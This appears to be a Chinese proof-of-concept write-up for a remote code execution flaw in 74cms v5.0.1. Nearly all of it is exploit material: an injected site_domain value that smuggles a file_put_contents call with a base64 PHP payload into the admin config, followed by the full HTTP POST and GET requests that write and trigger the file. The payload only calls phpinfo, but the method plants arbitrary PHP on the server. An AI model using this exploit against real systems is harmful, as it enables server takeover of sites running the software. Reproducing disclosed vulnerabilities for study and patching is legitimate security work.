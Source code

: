 ### 复现 poc

<?php phpinfo();?> -> PD9waHAgcGhwaW5mbygpOz8+

site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8+')),'

```
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 465
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default

site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other= 
```

```
GET /74cms/Application/Common/Conf/url.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0 
```

成功截图

![image](img/214b537394d6e12ea7fd4bddd3b4e52d.png)

## 四、参考链接

> [https://github.com/kyrie403/Vuln/blob/master/74cms/74cms%20v5.0.1%20remote%20code%20execution.md](https://github.com/kyrie403/Vuln/blob/master/74cms/74cms%20v5.0.1%20remote%20code%20execution.md)


